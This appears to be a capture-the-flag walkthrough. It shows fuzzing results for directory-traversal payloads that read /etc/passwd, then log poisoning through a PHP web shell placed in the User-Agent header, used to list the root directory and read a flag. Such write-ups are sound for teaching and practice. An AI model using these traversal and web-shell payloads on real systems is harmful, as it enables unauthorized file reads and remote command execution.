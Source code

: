 ```
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 325ms]
../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 323ms]
../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 328ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 338ms]
../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 370ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 413ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 419ms]
../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 418ms]
../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 418ms]
../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 417ms]
../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 433ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 162ms]
../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 462ms]
../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 504ms]
../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 550ms]
../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 603ms]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 831ms]
```

We can test any of this payloads, let's try:

![](cybersecurity/images/Pasted%2520image%252020250218224640.png)

And it indeed works, now, next step we need to do is log poisoning, we need to change the `User-Agent` to this:

```php
<?php system($_GET["cmd"]); ?>
```

Now, let's send the request like this:

![](cybersecurity/images/Pasted%2520image%252020250218225147.png)

As seen, it gets logged, in this case, we can see the current directory, let's list the root folder:

![](cybersecurity/images/Pasted%2520image%252020250218225233.png)

Found our flag, let's read it now:

![](cybersecurity/images/Pasted%2520image%252020250218225409.png)

Our flag is:

```
a9a892dbc9faf9a014f58e007721835e
```


![](cybersecurity/images/Pasted%2520image%252020250218225450.png)

